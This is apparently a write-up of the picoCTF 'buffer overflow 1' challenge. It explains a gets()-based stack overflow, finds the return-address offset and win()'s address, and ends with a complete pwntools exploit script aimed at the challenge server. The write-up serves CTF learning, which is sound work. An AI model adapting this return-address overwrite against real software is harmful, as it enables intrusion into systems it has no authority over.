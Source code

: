 # buffer overflow 1
Just like buffer overflow 0 this is a simple buffer overflow, however, here we have to change the return address value to the address of `win()`.

We have a vulnable function:

```
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

which will directly input our input into a buffer of `BUFSIZE`, however, as we have learned since the program doesn't check the length of our buffer it will just continue to write it onto the stack no matter what.

The first thing we have to do is find how much we have to input before we start overwriting the return pointer.
This is usually pretty easy to bruteforce by just inserting a long string of text, such as: `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT`

Inputting this into the program will give us:
`Okay, time to return... Fingers Crossed... Jumping to 0x4c4c4c4c`

So what is `0x4c` in ascii? Looking at any table will give us that it equals Uppercase L, meaning at after KKKK we start overwriting the return pointer.

The second step is to find the return address of the `win()` function. We can do this by using objdump on the provided binary.

`objdump -D vuln | grep win`

This will give us the address of: `0x080491f6`. However this is in little endian meaning that we need to swap each byte position.

Thus, by using pwntools, we can construct our payload: `payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK" + "\xf6\x91\x04\x08"
`.

Using this payload as input will then overwrite the return address with the `win()` function and provide us the flag.

Full program:
```
from pwn import *

host = "saturn.picoctf.net"
port = 63109

p = remote(host, port)

print(p.recvline())

# return addr for win: 0x080491f6
# little endian: f6910408

payload = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK" + "\xf6\x91\x04\x08"

p.sendline(payload)


print(p.recvline())

p.interactive()
```
